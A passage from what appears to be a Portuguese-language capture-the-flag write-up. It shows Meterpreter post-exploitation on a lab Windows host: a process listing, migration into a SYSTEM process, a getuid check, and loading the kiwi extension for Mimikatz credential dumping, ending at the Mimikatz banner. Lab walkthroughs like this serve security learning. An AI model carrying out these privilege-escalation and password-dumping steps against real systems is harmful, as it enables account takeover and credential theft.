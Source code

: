  1692  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1832  692   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 2268  1324  Icecast2.exe          x86   1        Dark-PC\Dark                  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 2300  692   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 2324  692   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2344  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2388  2500  powershell.exe        x86   1        Dark-PC\Dark                  C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe
 2560  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2836  604   conhost.exe           x64   1        Dark-PC\Dark                  C:\Windows\System32\conhost.exe
 2992  500   Defrag.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\Defrag.exe
```

Depois disso eu migrei para esse serviço utilizando o comando ```migrate -N PROCESS_NAME```

```
[*] Migrating from 2388 to 1368...
[*] Migration completed successfully.
```

Depois disso eu verifiquei o usuário usando o comando ```getuid```

```
Server username: NT AUTHORITY\SYSTEM
```

e ENTÃO UTILIZEI O MIMIKATz Mimikatz is a rather infamous password dumping tool that is incredibly useful.

```
load kiwi
```

```
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
